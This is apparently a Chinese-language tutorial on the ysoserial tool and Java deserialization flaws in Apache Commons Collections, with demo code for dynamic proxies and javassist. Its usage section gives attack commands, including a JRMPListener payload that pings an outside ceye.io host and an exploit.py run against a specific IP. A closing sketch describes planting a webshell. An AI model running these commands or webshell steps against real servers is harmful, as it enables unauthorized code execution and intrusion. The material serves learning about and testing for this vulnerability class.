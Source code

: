 ```yaml
---
description: 这个工具你要说是听都没听过，你可就out了
---
```


# Ysoserial

        ysoserial这个工具真是写的出奇的好，它是基于上一篇反序列化漏洞挖掘思路来生成序列化payload数据的工具。

        其中针对Apache Commons Collections 3的payload也是基于`TransformedMap`和`InvokerTransformer`来构造的，然而在触发时，并没有采用上文介绍的`AnnotationInvocationHandler`，而是使用了`java.lang.reflect.Proxy`中的相关代码来实现触发。此处不再做深入分析，有兴趣的读者可以参考下面的链接获取及编译ysoserial的源码。

* 相关Tool链接
  * [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)
  * [https://github.com/CaledoniaProject/jenkins-cli-exploit](https://github.com/CaledoniaProject/jenkins-cli-exploit)
  * [https://github.com/foxglovesec/JavaUnserializeExploits](https://github.com/foxglovesec/JavaUnserializeExploits)

## 关键技术

### 动态代理

动态代理比较常见的用处就是：**在不修改类的源码的情况下,通过代理的方式为类的方法提供更多的功能。**

举个例子来说（这个例子在开发中很常见）：我的开发们实现了业务部分的所有代码，忽然我期望在这些业务代码中多添加日志记录功能的时候，一个一个类去添加代码就会非常麻烦，这个时候我们就能通过动态代理的方式对期待添加日志的类进行代理。

看一个简单的demo：

Work接口需要实现work函数

```java
public interface Work {
    public String work();
}
```

Teacher类实现了Work接口

```java
public class Teacher implements Work{
    @Override
    public String work() {
        System.out.println("my work is teach students");
        return "Teacher";
    }
}
```

WorkHandler用来处理被代理对象，它必须继承InvocationHandler接口，并实现invoke方法

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
public class WorkHandler implements InvocationHandler{
    //代理类中的真实对象
    private Object obj;
    //构造函数，给我们的真实对象赋值
    public WorkHandler(Object obj) {
        this.obj = obj;
    }
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        //在真实的对象执行之前我们可以添加自己的操作
        System.out.println("before invoke。。。");
        //java的反射功能，用来调用obj对象的method方法，传入参数为args
        Object invoke = method.invoke(obj, args);
        //在真实的对象执行之后我们可以添加自己的操作
        System.out.println("after invoke。。。");
        return invoke;
    }
}
```

在Test类中通过Proxy.newProxyInstance进行动态代理，这样当我们调用代理对象proxy对象的work方法的时候，**实际上调用的是WorkHandler的invoke方法**。

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
public class Test {
    public static void main(String[] args) {
        //要代理的真实对象
        Work people = new Teacher();
        //代理对象的调用处理程序，我们将要代理的真实对象传入代理对象的调用处理的构造函数中，最终代理对象的调用处理程序会调用真实对象的方法
        InvocationHandler handler = new WorkHandler(people);
        /**
         * 通过Proxy类的newProxyInstance方法创建代理对象，我们来看下方法中的参数
         * 第一个参数：people.getClass().getClassLoader()，使用handler对象的classloader对象来加载我们的代理对象
         * 第二个参数：people.getClass().getInterfaces()，这里为代理类提供的接口是真实对象实现的接口，这样代理对象就能像真实对象一样调用接口中的所有方法
         * 第三个参数：handler，我们将代理对象关联到上面的InvocationHandler对象上
         */
        Work proxy = (Work)Proxy.newProxyInstance(handler.getClass().getClassLoader(), people.getClass().getInterfaces(), handler);
        System.out.println(proxy.work());
    }
}
```

看一下输出结果，我们再没有改变Teacher类的前提下通过代理Work接口，实现了work函数调用的重写。

```java
before invoke。。。
my work is teach students
after invoke。。。
Teacher
```

### javassist动态编程

ysoserial中基本上所有的恶意object都是通过动态编程的方式生成的，通过这种方式我们可以直接对已经存在的java文件字节码进行操作，也可以在内存中动态生成Java代码，动态编译执行，关于这样做的好处，作者在工具中也有提到：

{% hint style="success" %}
could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
{% endhint %}

关于javassist动态编程，我就只把关键的函数及其功能罗列一下了

```java
//获取默认类池，只有在这个ClassPool里面已经加载的类，才能使用
ClassPool pool = ClassPool.getDefault();
//获取pool中的某个类
CtClass cc = pool.get("test.Teacher");
//为cc类设置父类
cc.setSuperclass(pool.get("test.People"));
//将动态生成类的class文件存储到path路径下
cc.writeFile(path);
//获取类的字节码
byte[] b=cc.toBytecode();
//创造Point类
CtClass cc = pool.makeClass("Point");
//为cc类添加成员变量
cc.addField(f);
//为cc类添加方法
cc.addMethod(m);
//为cc类设置类名
cc.setName("Pair");
```

## 使用方式

### 0x01 基本使用方法

**在公网vps上执行:**

```text
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [port] CommonsCollections1 '[commands]'
```

port:公网vps上监听的端口号  
commands:需要执行的命令  
例子：

```java
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'ping -c 2 rce.267hqw.ceye.io'
```

**重启一个shell窗口：**

```text
python exploit.py 【目标ip】 【目标端口】 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 【JRMPListener ip】  【JRMPListener port】 JRMPClient
```

列子：

```text
python exploit.py 118.89.53.139  7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 118.89.53.139  1099 JRMPClient
```

### 0x02 在ysoserial编写自己的payload

发现的新的调用链之后，编写的新的payload作为补充。

### 0x03 在burp中集成插件使用

有关在burp中的使用，请参考我的博客：[使用Burp插件Java-Deserialization-Scanner检测java反序列化漏洞](https://bleke.top/articles/2020/05/14/1589443660291.html)

## 总结

### 漏洞分析

* 引发：如果Java应用对用户输入，即不可信数据做了反序列化处理，那么攻击者可以通过构造恶意输入，让反序列化产生非预期的对象，非预期的对象在产生过程中就有可能带来任意代码执行。 
* 原因：类ObjectInputStream在反序列化时，没有对生成的对象的输入做限制，使攻击者利用反射调用函数进行任意命令执行。
  * CommonsCollections组件中对于集合的操作存在可以进行反射调用的方法 
* 根源：Apache Commons Collections允许链式的任意的类函数反射调用 
  * 问题函数：org.apache.commons.collections.Transformer接口
* 利用：要利用Java反序列化漏洞，需要在进行反序列化的地方传入攻击者的序列化代码。
* 思路：攻击者通过允许Java序列化协议的端口，把序列化的攻击代码上传到服务器上，再由Apache Commons Collections里的TransformedMap来执行。 

### 漏洞利用        

至于如何使用这个漏洞对系统发起攻击，举一个简单的思路，通过本地java程序将一个带有后门漏洞的jsp（一般来说这个jsp里的代码会是文件上传和网页版的SHELL）序列化， 将序列化后的二进制流发送给有这个漏洞的服务器，服务器会反序列化该数据的并生成一个webshell文件，然后就可以直接访问这个生成的webshell文件进行进一步利用。

## 参考文献

* Java反序列化漏洞分析：[https://www.cnblogs.com/ssooking/p/5875215.html](https://www.cnblogs.com/ssooking/p/5875215.html)
* 反序列化工具ysoserial使用介绍：[http://www.mamicode.com/info-detail-2407213.html](http://www.mamicode.com/info-detail-2407213.html)
* 玩转Ysoserial-CommonsCollection的七种利用方式分析：[https://www.freebuf.com/articles/web/214096.html](https://www.freebuf.com/articles/web/214096.html)



